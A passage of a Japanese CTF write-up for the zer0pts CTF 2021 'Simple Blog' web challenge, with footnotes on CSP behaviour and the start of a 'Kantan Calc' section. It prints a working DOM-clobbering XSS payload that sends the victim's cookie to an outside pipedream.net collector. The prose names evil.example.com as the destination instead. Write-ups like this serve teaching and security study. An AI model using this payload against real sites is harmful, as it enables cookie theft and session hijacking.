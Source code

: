 あとはcookieを奪取するスクリプトを投げればいいのですが`api.php`を見ると、
```php
if (strlen($callback) > 20) {
  die('throw new Error("callback name is too long")');
}
```
このように「20文字以下」という制限があります。普通にfetch関数を使ったりすると余裕でオーバーします。

既存のコードを眺めると`jsonp`という便利そうな関数が定義されています。そこで、`callback`の値を`x:jsonp(a);`にし、DOM Clobberingで`a`の値を好きなjavascriptコードにすればうまくいきそうです。ただし、`jsonp`の第1引数はURLであるため`data:text/javascript,...`を使いました。

### 攻撃

最終的に
```javascript
encodeURIComponent('> <form id=trustedTypes><input name=defaultPolicy></form> <a id=a href=\'data:text/javascript,location=`https://enp4oaz0o4e4vlk.m.pipedream.net?cookie=${document.cookie}`\'></a> <a id=callback href=\'x:jsonp(a);\'></a> <script "')
```
をして、
```
theme=%3E%20%3Cform%20id%3DtrustedTypes%3E%3Cinput%20name%3DdefaultPolicy%3E%3C%2Fform%3E%20%3Ca%20id%3Da%20href%3D'data%3Atext%2Fjavascript%2Clocation%3D%60https%3A%2F%2Fenp4oaz0o4e4vlk.m.pipedream.net%3Fcookie%3D%24%7Bdocument.cookie%7D%60'%3E%3C%2Fa%3E%20%3Ca%20id%3Dcallback%20href%3D'x%3Ajsonp(a)%3B'%3E%3C%2Fa%3E%20%3Cscript%20%22
```
をreportすると、`https://evil.example.com`にcookieの値が投げられます。

![](/images/2021/20210309-zer0ptsctf-simpleblog-03.png)
が返ってきました。

### フラグ

`zer0pts{1_w4nt_t0_e4t_d0m_d0m_h4mburger_s0med4y}`

DOM Clobbering、最近聞く機会が多かったので本番で解けてよかったです。

あとこれ嬉しい ↓
<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">Dangling markup injection本当ですか? 非想定解法です…</p>&mdash; st98 (@st98_) <a href="https://twitter.com/st98_/status/1368541139041546241?ref_src=twsrc%5Etfw">March 7, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

## [web] Kantan Calc

135pts, 50solves

- 公式writeup: https://hackmd.io/@st98/Sy7D5NymO
- 問題文:
    > "Kantan" means simple or easy in Japanese.

### 問題概要

- サーバのソースコード中に直書きされているフラグを出力させる問題
- シンプルなコードゴルフ


[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。
[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。
[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。
[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。
[^7]: https://simple.wikipedia.org/wiki/Leet
